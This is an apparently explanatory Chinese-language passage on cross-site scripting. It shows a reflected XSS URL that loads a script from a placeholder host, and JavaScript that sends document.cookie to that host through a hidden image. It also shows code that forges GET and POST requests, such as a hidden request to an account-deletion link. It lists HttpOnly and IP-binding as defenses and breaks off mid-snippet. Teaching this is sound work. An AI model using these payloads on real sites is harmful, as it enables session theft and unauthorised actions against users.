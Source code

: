 ### 读取用户的Cookie

首先通过用户触发，加载一个远程的脚本文件

`http://www.kezaihui.com/test.php?param=<script src=http://www.xxx.com/xss.js>`

```JavaScript
var img = new Image()
img.src = 'http://www.xxx.com/log?cookie=' + encodeURIComponent(document.cookie)
img.style = 'display: block;height: 0; width: 0;'
document.body.appendChild(img)
```

**解决办法**:
- Cookie的HttpOnly属性，指示浏览器不要在除HTTP（和 HTTPS)请求之外暴露Cookie。一个有HttpOnly属性的Cookie，不能通过非HTTP方式来访问，例如通过调用JavaScript(例如，引用 document.cookie），因此，不可能通过跨域脚本（一种非常普通的攻击技术）来偷走这种Cookie。

- 将Cookie与IP进行绑定。

### 构造GET与POST请求

比如正常删除某个用户的链接是

`http://www.zaihuiba.com/operation/accounts/?phone=15689890989&spell=avada_kedavra`

对于攻击者，只需要模拟一个GET请求，便能达到攻击的目的

```JavaScript
var img = new Image()
img.src = 'http://www.zaihuiba.com/operation/accounts/?phone=15689890989&spell=avada_kedavra'
img.style = 'display: block;height: 0; width: 0;'
document.body.appendChild(img)
```

### 构造POST请求

- 构造form表单，然后自动提交

```JavaScript
var xssForm = document.createElement('form')
xssForm.action = '/path'
xssForm.method = 'POST'
document.body.appendChild(xssForm)

var input1 = document.createElement('input')
input1.name = 'xxx'
input1.value = 'yyy'

xssForm.appendChild(input1)

xssForm.submit()

```
- 使用XHR

```JavaScript
var xhr;
if (window.XMLHttpRequest) {
    // code for IE7+, Firefox, Chrome, Opera, Safari
    xhr = new XMLHttpRequest();
} else {
    // code for IE6, IE5
    xhr = new ActiveXObject('Microsoft.XMLHTTP');
}

xhr.open('POST', '/path');
xhr.send('name=xxx&value=xxx');
xhr.onreadystatechange = function() {
    if (xhr.readyState == 4 && xmlhttp.status == 200) {
```
